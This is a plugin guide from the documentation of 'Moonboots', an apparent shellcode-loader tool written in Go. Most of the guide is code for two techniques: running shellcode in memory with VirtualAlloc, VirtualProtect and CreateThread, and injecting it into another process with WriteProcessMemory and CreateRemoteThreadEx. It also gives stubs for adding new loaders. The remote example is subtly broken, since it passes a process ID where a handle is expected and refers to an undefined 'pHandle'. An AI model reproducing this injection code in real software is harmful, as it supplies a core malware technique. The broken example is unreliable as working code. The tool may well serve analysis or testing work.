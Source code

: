 # Plugins
Moonboots have been created with extensibility in mind. This page describe how to create a plugin and add your own loader to the program.

## TL;DR
To add a new loader, copy one of the stub below to `internal/loaders/<myloader>.go`, then implement your technique in the `Run` function.

Setting `<loader>.Injector` to `true` in the init function of your plugin will result in the program automatically handle the `target`, `args` and `pid` CLI user parameters and load the target process accordingly. You can access the target's `*windows.ProcessInformation` object in your code through the `<loader>.TargetProcess` member.

If your technique requires the target to be suspended, you can set `<loader>.SuspendProcess` to `true`. The target process' execution will be resumed after the `Run` method returns, right before closing every handle in `<loader>.TargetProcess`. 

You can also expose your own custom parameters by setting the `<loader>.ValidArgs` string array. The user will then be able to set them through the CLI with the `--option|-o` flag, e.g. `--option myparam=<value>`. Proxy CLI flags can easily be added as well for a better user experience - full details in the [Loaders arguments](#loaders-arguments) section.

Console logging is handled by [logrus](https://github.com/sirupsen/logrus).

## Standard loader
A "standard" loader boostraps the shellcode to run in the existing process. 

You will find below a simple implementation.

> Console outputs and error handling have been removed to make it easier to read. The full source code is available in `internal/loaders/createthread.go`.

```go
package loaders

import (
	"github.com/BonjourMalware/moonboots/internal/consts"
	"github.com/BonjourMalware/moonboots/internal/win32"
	"golang.org/x/sys/windows"
	"os"
	"unsafe"
)

/*
This program executes shellcode in the current process using the following steps
	1. Allocate memory for the shellcode with VirtualAlloc setting the page permissions to Read/Write
	2. Copy the shellcode to the allocated memory space
	3. Change the memory page permissions to Execute/Read with VirtualProtect
	4. Call CreateThread on shellcode address
	5. Call WaitForSingleObject so the program does not end before the shellcode is executed

This program leverages the functions from golang.org/x/sys/windows to call Windows procedures instead of manually loading them
*/

const LdrCreateThread = "createthread"

type CreateThreadLdr struct {
	Base
}

func init() {
	AvailableLoaders.Register(LdrCreateThread, &CreateThreadLdr{})
}

func (ldr CreateThreadLdr) ValidArchs() []string {
	return consts.VALID_ARCH_BOTH
}

func (ldr CreateThreadLdr) Run(shellcode []byte, _ map[string]string) error {
	addr, _ := windows.VirtualAlloc(uintptr(0), uintptr(len(shellcode)), windows.MEM_COMMIT|windows.MEM_RESERVE, windows.PAGE_READWRITE)

	copy((*[1 << 30]byte)(unsafe.Pointer(addr))[:len(shellcode)], shellcode)

	var oldProtect uint32
	windows.VirtualProtect(addr, uintptr(len(shellcode)), windows.PAGE_EXECUTE_READ, &oldProtect)

	kernel32 := windows.NewLazySystemDLL("kernel32.dll")
	CreateThread := kernel32.NewProc("CreateThread")
	thread, _, _ := CreateThread.Call(0, 0, addr, win32.Null, 0, 0)
	
	windows.WaitForSingleObject(windows.Handle(thread), 0xFFFFFFFF)
	return nil
}
```

<details>
<summary><b>Stub</b> <i>(click to expand 👇)</i></summary>

```go
package loaders

import (
	"github.com/BonjourMalware/moonboots/internal/consts"
	//log "github.com/sirupsen/logrus"
)

/*
This program executes shellcode in the current process using the following steps
	1. ...
    2. ...
    3. ...

<additional notes>
*/

const LdrMyMethod = "mymethod"

type MyMethodLoader struct {
	Base
}

func init() {
	AvailableLoaders.Register(LdrMyMethod, &MyMethodLoader{})
}

func (ldr MyMethodLoader) ValidArchs() []string {
	//return consts.VALID_ARCH_386
	//return consts.VALID_ARCH_AMD64
	return consts.VALID_ARCH_BOTH
}

func (ldr MyMethodLoader) Run(shellcode []byte, _ map[string]string) error {
	// Your code here
	return nil
}
```

</details>

## Remote loader
A "remote" loader interacts with other processes.

The main addition is the support for user-specified arguments (see [Loaders arguments](#loaders-arguments)), which can be used to inject the shellcode in a running process or to use a specific executable to spawn a dummy one.

You will find below a simple implementation.

> Console outputs and error handling have been removed to make it easier to read. The full source code is available in `internal/loaders/createremotethread.go`.

```go
package loaders

import (
	"github.com/BonjourMalware/moonboots/internal/consts"
	"golang.org/x/sys/windows"
	"unsafe"
)

/*
This program executes shellcode in a remote process using the following steps
 1. Get a handle to the target process
 1. Allocate memory for the shellcode with VirtualAllocEx setting the page permissions to Read/Write
 2. Use the WriteProcessMemory to copy the shellcode to the allocated memory space in the remote process
 3. Change the memory page permissions to Execute/Read with VirtualProtectEx
 4. Execute the entrypoint of the shellcode in the remote process with CreateRemoteThread
 5. Close the handle to the remote process

This program leverages the functions from golang.org/x/sys/windows WHERE POSSIBLE to call Windows procedures instead of manually loading them
*/

const (
	LdrCreateRemoteThread = "createremotethread"
)

type CreateRemoteThreadLoader struct {
	Base
}

func init() {
	ldr := &CreateRemoteThreadLoader{}
	ldr.Injector = true
	ldr.SuspendProcess = true

	AvailableLoaders.Register(LdrCreateRemoteThread, ldr)
}

func (ldr CreateRemoteThreadLoader) ValidArchs() []string {
	return consts.VALID_ARCH_BOTH
}

func (ldr CreateRemoteThreadLoader) Run(shellcode []byte, _ map[string]string) error {
	kernel32 := windows.NewLazySystemDLL("kernel32.dll")
	VirtualAllocEx := kernel32.NewProc("VirtualAllocEx")
	VirtualProtectEx := kernel32.NewProc("VirtualProtectEx")
	WriteProcessMemory := kernel32.NewProc("WriteProcessMemory")
	CreateRemoteThreadEx := kernel32.NewProc("CreateRemoteThreadEx")

	addr, _, _ := VirtualAllocEx.Call(uintptr(ldr.TargetProcess.ProcessId), 0, uintptr(len(shellcode)), windows.MEM_COMMIT|windows.MEM_RESERVE, windows.PAGE_READWRITE)
	
	WriteProcessMemory.Call(uintptr(ldr.TargetProcess.ProcessId), addr, (uintptr)(unsafe.Pointer(&shellcode[0])), uintptr(len(shellcode)))
	
	oldProtect := windows.PAGE_READWRITE
	VirtualProtectEx.Call(uintptr(ldr.TargetProcess.ProcessId), addr, uintptr(len(shellcode)), windows.PAGE_EXECUTE_READ, uintptr(unsafe.Pointer(&oldProtect)))
	
	CreateRemoteThreadEx.Call(uintptr(pHandle), 0, 0, addr, 0, 0, 0)
	return nil
}

```

<details>
<summary><b>Stub</b> <i>(click to expand 👇)</i></summary>

```go
package loaders

import (
	"github.com/BonjourMalware/moonboots/internal/consts"
    //log "github.com/sirupsen/logrus"
)

/*
This program executes shellcode in the current process using the following steps
	1. ...
    2. ... 
    3. ...

<additional notes>
*/

const LdrMyMethod = "mymethod"

type MyMethodLdr struct {
	Base
}

func init() {
	ldr := MyMethodLdr{}
	ldr.Injector = true
	ldr.SuspendProcess = true

	AvailableLoaders.Register(LdrMyMethod, ldr)
}

func (ldr MyMethodLdr) ValidArchs() []string {
	//return consts.VALID_ARCH_386
	//return consts.VALID_ARCH_AMD64
	return consts.VALID_ARCH_BOTH
}

func (ldr MyMethodLdr) Run(shellcode []byte, args map[string]string) error {
    // Your code here
    return nil
}
```

</details>

## Managed use
Note that the call to `ReportPID` function - used to report back the PID of the process running the shellcode to other process that would need it - is handled by the program automatically.

## Loaders arguments
### Basics
The `--option|-o <key>=<value>` flag allows the user to pass parameters to the loaders. It can be used, for example, to target a specific process via its PID when injecting a shellcode, e.g. `--option myparam=<value>`.

To make it available to your implementation, you have to add it to the `<loader>.ValidArgs` string array with `<loader>.AddValidArgs` before registering your plugin.

For example:

```go
func init() {
	ldr := &MyMethodLoader{}
	ldr.AddValidArgs([]string{"myparam"})

	AvailableLoaders.Register(LdrCreateRemoteThread, ldr)
}
```

The custom values are exposed through the `Args` string array.

### Proxy flag

Creating an alias for these custom parameters to expose them as dedicated CLI flags is a simple two steps process. First, you have to add the long name of the new CLI flag to the `aliasedArgs` string array in the `var()` declaration of the `cmd/moonboots/root.go` file. Then, register your flag in the `init` function.

For example, to add a custom parameter named *myparam*:

```go
// cmd/moonboots/root.go
var(
	[...]
    aliasedArgs = []string{"target", "args", "pid", "myparam"}
    [...]
)

func init() {
    [...]
    RootCmd.Flags().StringP("myparam", "X", "", "My custom parameter description. Alias for '-o myparam=<value>'")
    [...]
}
```

> Your argument can be anything other than string; however, you'll need to convert it to the right type in the body of the `Run` function.
